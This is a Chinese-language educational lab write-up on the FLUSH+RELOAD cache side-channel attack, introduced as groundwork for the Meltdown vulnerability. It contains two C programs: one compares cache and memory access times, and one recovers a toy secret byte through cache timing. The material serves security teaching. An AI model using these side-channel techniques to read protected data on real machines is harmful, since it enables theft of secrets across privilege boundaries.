 # 刷新和重载攻击

这一节更确切的名字是：在用户空间利用刷新和重载找出CPU缓存的值  
Meltdown这个漏洞是2017年发现，2018年1月份公开的。这个漏洞在intel和arm处理器上广泛存在。漏洞允许用户程序来读取内核数据。
由于这个漏洞是硬件的问题，很难从根本上解决这个问题，除非换掉cpu。

!!! 实验环境

    这个实验无法在基于AMD处理器的电脑上做，cpu必须是intel系列的。操作系统20.04可以做实验1到6，无法做7到8，
    这里我们统一用16.04

!!! gcc编译指令

    加上-march=native表示启用所有指令集

# 侧通道攻击CPU缓存

这个任务的目的是用侧通道从CPU缓存中取保护数据，这个攻击有个名字叫FLUSH+RELOAD。  
CPU的cache是一个硬件的cache用于加快计算速度的，读CPU的缓存比读主内存要快。当数据从主内存读取后，会存在CPU的缓存中，
当读取时，会先读CPU缓存，如果缓存命中，就直接取数据了。

下图就是缓存命中情况和不命中情况读取逻辑：
![缓存命中和不命中](../img/system-cachehit.png)

### task1: 从cache读和内存读对比

!!! volatile关键字

    顾名思义，易变的。告诉编译器不要优化，如果优化后，可能会从寄存器读，如果被别的程序更新，将导致冲突。

!!! 寄存器变量

    寄存器变量是放在CPU的寄存器里的，特点是运算速度快，不能取地址。频繁使用的变量适合使用寄存器变量

!!! 时间戳计数器TSC

    它记录自启动以来处理器消耗的时钟周期数。
    
CacheTime.c如下：
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[10*4096];

int main(int argc, const char **argv) {
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  
  // Initialize the array
  for(i=0; i<10; i++) array[i*4096]=1;

  // FLUSH the array from the CPU cache
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);

  // Access some of the array items
  array[3*4096] = 100;
  array[7*4096] = 200;

  for(i=0; i<10; i++) {
    addr = &array[i*4096];
    time1 = __rdtscp(&junk);                
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;       
    printf("Access time for array[%d*4096]: %d CPU cycles\n",i, (int)time2);
  }
  return 0;
}
```
程序解读：  
time1,time2因为是频繁操作，又不用取地址，适合用寄存器变量  
读操作远大于写操作时，用volatile可以避免加锁，故addr适合定义成volatile  
_mm_clflush这个函数调用一下，确保没有被CPU缓存  
time1 = __rdtscp(&junk); 表示读取junk到内存，并返回TSC  

![从cpu读和内存读时间差异](../img/system-cache-time.png)
实验结果表明，数组3和7是从CPU的cache读的时间最少

### task2: 缓存作为侧通道

FlushReload.c如下：  
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[256*4096];
int temp;
unsigned char secret = 94;

/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (150)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n",i,DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}

int main(int argc, const char **argv) 
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
```
程序解读：  
程序设定了一个阈值，当时间小于这个阈值，说明被CPU缓存了，这时这个值肯定是调用victim函数的那个值，可以把该值读取出来。  
乘4096只是为了把cache块隔开，4096大于一个典型的64字节的内存块  
由于缓存是块级缓存的，故不能简单定义array[256]

!!! 为何循环256次

    要取的秘密值是一个字节，一个字节8位，一位不是0就是1，2的8次方是256，一共有256种可能

!!! 为何加一个DELTA

    由于array[0*4096]可能会和其他变量使用同一个内存块，会因变量而缓存起来，为了避免这种情况同时保持程序一致性，
    在所有数组上都加一个偏移
    
!!! CACHE_HIT_THRESHOLD多少合适

    这个值应通过前一个实验估计出来，按我这边上一个实验结果，TSC小于150可以认定为是从寄存器读的，故150较为合适

![flushreload实验](../img/system-flushreload.png)
真实场景下，victim对于我来说是一个黑盒，我只知道运行一下会有一个secret值发生变化，通过这种方式可以把值猜出来。

